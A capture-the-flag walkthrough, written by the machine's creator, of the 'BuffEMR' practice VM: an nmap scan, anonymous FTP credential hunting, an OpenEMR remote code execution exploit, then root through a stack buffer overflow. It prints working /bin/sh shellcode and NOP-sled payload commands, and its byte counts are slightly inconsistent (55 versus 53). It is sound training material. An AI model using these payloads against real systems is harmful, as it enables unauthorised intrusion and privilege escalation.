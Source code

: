 ```yaml
---
layout: post
title: BuffEMR Walkthrough
---
```

![](/images/2021-12-01-BuffEmr/0.png)


This is a walk through of "BuffEMR" machine created by myself and is available here for hacking: [BuffEmr](https://www.vulnhub.com/entry/buffemr-101,717/). 

This machines have been purposefully created for practicing penetration testing skills. I have been getting a lot of twitter DMs for hint and helps to PAWN this machine, so I decided to release the walkthrough !


Firstly, we will start with Nmap:
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-25 09:44 EDT
Nmap scan report for 10.0.0.63
Host is up (0.0085s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    3 0        0            4096 Jun 21 14:21 share
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.0.0.154
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 92:4c:ae:7b:01:fe:84:f9:5e:f7:f0:da:91:e4:7a:cf (RSA)
|   256 95:97:eb:ea:5c:f8:26:94:3c:a7:b6:b4:76:c3:27:9c (ECDSA)
|_  256 cb:1c:d9:56:4f:7a:c0:01:25:cd:98:f6:4e:23:2e:77 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.49 seconds

```

As we can see, there are three ports open (http, ftp, ssh).

We will check the webapp first:
#![](/images/2021-12-01-BuffEmr/1.png)

It is running openEMR, If you try try some default credentials, it won’t work!

For now, we will login into FTP as we can use anonymous login:

#![](/images/2021-12-01-BuffEmr/2.png)

The FTP share contains source code for openemr, let’s try and find out any interesting information’s here by searching for sensitive information (eg: grep -ri password .
  or grep -ri key .)


The first thing I found was a pdfkey for something :

#![](/images/2021-12-01-BuffEmr/3.png)

The second interesting thing I found was a file under /tests that contains admin creds : 

#![](/images/2021-12-01-BuffEmr/4.png)

Now let’s try and use this on openemr:

#![](/images/2021-12-01-BuffEmr/5.png)

Now we have access and we know the version.

After looking for exploits, I found multiple vulnerabilities for this version of OpenEMR including remote code execution.

Reference: [Exploit](https://www.exploit-db.com/exploits/45161)


Run the python file with a netcat listening on port 1337:

#![](/images/2021-12-01-BuffEmr/6.png)


#![](/images/2021-12-01-BuffEmr/7.png)

#![](/images/2021-12-01-BuffEmr/8.png)

Now we have access to the box:

#![](/images/2021-12-01-BuffEmr/9.png)

We don’t have access to user folder, but we do have access to /var where I found a password protected zip file:

#![](/images/2021-12-01-BuffEmr/10.png)

Now I am going to transfer the file to my local machine and use the pdfkey found earlier to see what is in it:

#![](/images/2021-12-01-BuffEmr/11.png)


#![](/images/2021-12-01-BuffEmr/12.png)

The zip file contains the password which can be used to ssh as buffemr:

#![](/images/2021-12-01-BuffEmr/13.png)

#![](/images/2021-12-01-BuffEmr/14.png)

The first thing I do to escalate privilege is to see the current user AKA.BuffEMR have the rights to run anything as sudo, which in this case we does not have:

#![](/images/2021-12-01-BuffEmr/15.png)

Now after some enumeration, I found an executable owned by root (suid bit set) in the /opt directory :

#![](/images/2021-12-01-BuffEmr/16.png)

I ran strings command on the binary and found out that there is a function the binary use called “strcpy”.  The strcpy() function does not specify the size of the destination array, so buffer overrun is often a risk.

#![](/images/2021-12-01-BuffEmr/17.png)

Maybe, we will try to over flow the buffer to run a shell code to get root !

We will use gdb for this:

#![](/images/2021-12-01-BuffEmr/18.png)

The hex of A is \x41, at 520 it overrides EIP and at 510 it doesn’t override EIP, so we need to find the magic number that overrides EIP without going over, between 520 and 510:


After few tries, I found out that 516 is the magic number:

#![](/images/2021-12-01-BuffEmr/19.png)

Now, we need a shell code:

[shell-code-priv-esc]( https://github.com/san3ncrypt3d/shell-code-priv-esc)

This is the shell code I am going to use:
```
\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh

```

Let’s find out the length of the shell code:

#![](/images/2021-12-01-BuffEmr/20.png)

Our shell code is 55, we needed 516 A’s to override EIP, and 4 bytes is return address, so the buffer size will be 516-4 = 512

So, the plan is to use NOPs or no operations followed by shell code, to get a shell.

How many NOPs ?

512 – 53 = 459.

Note: NOP is \x90 in hex

So, we are going to run this:

```
python -c “print ‘\x90’ * 459 + ‘\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh’ + ‘\x41\x41\x41\x41’”
```



We don’t know the return address yet, so I am going to use 41 (A’s)

#![](/images/2021-12-01-BuffEmr/21.png)

Now use the command to examine the memory:
```
x/300wx $esp
```

#![](/images/2021-12-01-BuffEmr/22.png)

As we can see, the 0x90 is our NOP, so we can use any of the return address of the NOP to get our shell executed after:



Let’s run this:

```
run $(python -c "print '\x90'*459 + '\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' + '\xc0\xd6\xff\xff'")
```

After execution, we get a shell but inside gdb it still says we don’t have the elevated privilege, so exit out of gdb and run the same command :


#![](/images/2021-12-01-BuffEmr/23.png)

Now we can access the root flag as we escalated our privilege :

#![](/images/2021-12-01-BuffEmr/24.png)
